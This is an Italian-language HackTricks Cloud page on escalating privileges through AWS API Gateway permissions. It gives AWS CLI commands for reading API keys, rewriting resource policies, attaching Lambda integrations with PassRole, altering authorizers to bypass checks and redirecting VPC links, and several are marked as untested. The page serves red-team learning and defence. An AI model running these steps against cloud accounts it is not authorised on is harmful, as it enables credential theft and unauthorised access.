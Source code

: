 # AWS - Escalazione dei privilegi di Apigateway

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**Gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Apigateway

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Con questa autorizzazione puoi generare chiavi API delle API configurate (per regione).
```bash
aws --region <region> apigateway create-api-key
```
**Impatto Potenziale:** Non è possibile eseguire l'escalation dei privilegi con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:GET`

Con questa autorizzazione è possibile ottenere le chiavi API generate delle API configurate (per regione).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impatto Potenziale:** Non è possibile eseguire l'escalation dei privilegi con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Con questi permessi è possibile modificare la policy delle risorse di un'API per ottenere accesso per chiamarla e sfruttare potenzialmente l'accesso che potrebbe avere il gateway API (come invocare una lambda vulnerabile).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impatto Potenziale:** Di solito, non sarai in grado di fare l'escalation dei privilegi direttamente con questa tecnica ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con i permessi `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` può **aggiungere una nuova integrazione a un'API Gateway REST API esistente con una funzione Lambda che ha un ruolo IAM associato**. L'attaccante può quindi **attivare la funzione Lambda per eseguire codice arbitrario e potenzialmente ottenere accesso alle risorse associate al ruolo IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Accesso alle risorse associate al ruolo IAM della funzione Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con i permessi `apigateway:UpdateAuthorizer` e `apigateway:CreateDeployment` può **modificare un authorizer esistente di API Gateway** per eludere i controlli di sicurezza o eseguire codice arbitrario quando vengono effettuate richieste API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Eludere controlli di sicurezza, accesso non autorizzato alle risorse dell'API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con il permesso `apigateway:UpdateVpcLink` può **modificare un collegamento VPC esistente per puntare a un diverso Network Load Balancer, potenzialmente reindirizzando il traffico dell'API privata verso risorse non autorizzate o dannose**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impatto Potenziale**: Accesso non autorizzato alle risorse API private, intercettazione o interruzione del traffico API.

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
